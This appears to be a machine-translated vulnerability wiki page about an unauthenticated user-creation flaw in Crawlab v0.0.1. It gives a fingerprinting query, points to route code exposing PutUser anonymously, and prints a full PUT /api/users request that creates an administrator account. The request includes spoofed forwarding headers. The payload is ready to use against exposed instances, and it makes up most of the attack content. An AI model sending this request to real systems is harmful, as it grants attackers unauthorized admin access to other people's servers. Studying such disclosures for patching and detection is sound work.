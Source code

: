 # Crawlab users Add vulnerabilities to any user

## Vulnerability Description

The Crawlab users API has any user added and is added as an unauthorized interface. You can further attack in the background after adding it.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Crawlab v0.0.1</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="Crawlab"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1639304614319-67b65509-55dd-4205-98cd-1ebdfb164e7b-20220313133455667.png)

First check the route location main.go file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1639305087766-21949d4c-a274-45e2-b1ed-2b12a2b6450d.png)

```python
anonymousGrou 中为匿名可调用方法
authGroup	  中为认证可调用方法
```

You can see that the Putuser method is to add a user, but there is an anonymous call.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1639305199370-192f958d-1a96-4842-8f12-7dc32376074d.png)

Generate requests to add users based on fields

```python
PUT /api/users HTTP/1.1
Host: 
Content-Length: 83
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

{"username":"testppp","password":"testppp","role":"admin","email":"testppp@qq.com"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1639305372407-b81e6efc-2dde-403e-a7ad-ce5d0dd7cfa9.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1639305414874-3dc8bd9e-1d3d-44a0-a8a1-8c0d6affcddb.png)